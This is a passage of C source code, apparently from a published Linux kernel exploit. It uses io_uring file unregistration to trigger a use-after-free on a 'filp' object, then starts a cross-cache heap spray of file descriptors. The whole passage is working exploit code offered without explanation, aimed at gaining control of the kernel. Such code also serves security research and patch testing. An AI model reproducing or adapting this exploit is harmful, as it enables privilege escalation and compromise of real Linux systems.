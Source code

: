 ```
    if (g_child == -1)
    {
        err("`fork()` failed");
    }

    // Child
    if (g_child ==  0)
    {
        child_exec();
    }
    info("Spawned child: %d", g_child);

    // Change our name
    if (prctl(PR_SET_NAME, OUR_TASK, NULL, NULL, NULL) != 0)
    {
        err("`prctl()` failed");
    }

    // Create io ring
    struct io_uring_params params = { 0 };
    if (io_uring_queue_init_params(8, &g_ring, &params))
    {
        err("`io_uring_queue_init_params()` failed");
    }
    info("Created io_uring");

    // Create pipe
    info("Creating pipe...");
    create_pipe();
}

// Decrement file->f_count to 0 and free the filp
void do_uaf(void)
{
    if (io_uring_unregister_files(&g_ring))
    {
        err("`io_uring_unregister_files()` failed");
    }

    // Let the free actually happen
    usleep(100000);
}

// Cross-cache 1:
// Allocate enough objects that we have definitely allocated enough
// slabs to fill up the partial list later when we free an object from each
// slab
void cc_1(void)
{
    // Calculate the amount of objects to spray
    uint64_t spray_amt = (OBJS_PER_SLAB * (CPU_PARTIAL + 1)) * OVERFLOW_FACTOR;
    g_cc1_num = spray_amt;

    // Paranoid
    if (spray_amt > CROSS_CACHE_MAX) { err("Illegal spray amount"); }

    //info("Spraying %lu `filp` objects...", spray_amt);
    for (uint64_t i = 0; i < spray_amt; i++)
    {
        g_cc1_fds[i] = get_test_fd(0);
    }
    usleep(100000);

```